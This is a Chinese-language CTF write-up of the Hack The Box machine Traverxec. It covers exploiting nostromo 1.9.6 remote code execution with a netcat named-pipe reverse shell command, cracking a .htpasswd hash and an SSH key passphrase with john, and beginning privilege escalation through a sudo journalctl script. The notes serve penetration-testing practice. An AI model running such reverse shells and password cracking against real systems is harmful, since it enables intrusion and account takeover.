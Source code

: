 ### nmap

```Bash
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6

```



## Http

精确匹配了版本

```Bash
└─# searchsploit nostromo
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution        | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal R | linux/remote/35466.sh
```

```Bash
# 一步拿到shell
python2  47837.py 10.10.10.165 80 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 7777 >/tmp/f'
```

对80端口目录爆破异常

## Privilege Escalation

### www-data → david

```Bash
www-data@traverxec:/tmp$ ls -lh
total 12K
prw-r--r-- 1 www-data www-data    0 Feb 22 22:03 f

```

/tmp下有个名为f的pipe文件，且文件时间一直在更新，看了下named pipe相关的漏洞，都是针对windows系统的

如何获取这个管道里面的内容？

```Bash
# 有一个进程一直在cat
www-data   904     1  0 22:38 ?        00:00:00 cat /tmp/f

```

使用LinEnum没有特别的发现，没有思路，去疯狂翻目录，发现一个shadow格式的密码

```Bash
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

```

[https://www.wolai.com/pDuuCVTnGUfTynAWwPPw5Q](https://www.wolai.com/pDuuCVTnGUfTynAWwPPw5Q) 拿到david密码，但是这个密码既不是su密码，也不是ssh密码。。。

```Bash
└─# john david_passwd --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:01:45 DONE (2023-02-23 14:43) 0.009462g/s 100096p/s 100096c/s 100096C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

没有思路，看下题解

有个隐藏的点关于nostromo 的配置，看oxdf的题解

![](https://secure2.wostatic.cn/static/ptJpvA7ZyD2Jd8TnDKz2Qa/image.png?auth_key=1677500858-v4E4EyQKQ5VDhYxT9uTjhC-0-1081ea2f810d7aa9275097559ec53c11)

配置里面有个隐藏目录，还不能直接展示，只能直接进入，有ssh秘钥文件， 把tgz文件拿到本地解压以后，直接用id_rsa无法登录

![](https://secure2.wostatic.cn/static/wtACkJrq2CxqEVQPqxSvcK/image.png?auth_key=1677500858-gxk5kxz5Ln3nhZhPnYBYfU-0-93730aa419519852fb76767a3b15d67d)

![](https://secure2.wostatic.cn/static/a6J6UdJsxF3Q5Ry7mCw9vv/image.png?auth_key=1677500858-wWtsTc7XpGBzM1W5EEKcYx-0-ca521041ce9a1577177f215e5133e35e)

john处理下，拿到秘钥，进入david

```Bash
└─# john id_rsa_david --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:00 DONE (2023-02-23 16:02) 100.0g/s 14400p/s 14400c/s 14400C/s carolina..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(root㉿walle)-[/home/…/traverxec/home/david/.ssh]
└─# ssh david@10.10.10.165 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$
david@traverxec:~$


```





### david → root

#### kernel

```Bash
www-data@traverxec:/etc/ssh$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
www-data@traverxec:/etc/ssh$
www-data@traverxec:/etc/ssh$ uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux

```

靶机没有安装gcc



#### journlctl

```Bash
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat

```



看了下题解，过程有点离大谱，记住这个点就行

